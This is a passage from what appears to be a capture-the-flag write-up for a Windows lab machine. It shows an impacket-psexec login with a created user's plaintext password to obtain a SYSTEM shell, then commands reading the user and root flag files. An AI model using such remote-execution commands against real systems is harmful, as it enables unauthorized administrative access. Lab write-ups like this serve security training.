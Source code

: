 Now I should be able to log in with the new user I created!

```sh
❯ impacket-psexec 'derp:Herpderp123!@resolute'
```

And we finally get our SYSTEM shell!



## proof

### user.txt

```powershell
ipconfig
type C:\Users\melanie\Desktop\user.txt
```

Screenshot of `user.txt`

![local.txt](./assets/local.png)

### root.txt

```powershell
ipconfig
type C:\Users\Administrator\Desktop\root.txt
```

Screenshot of `root.txt`:
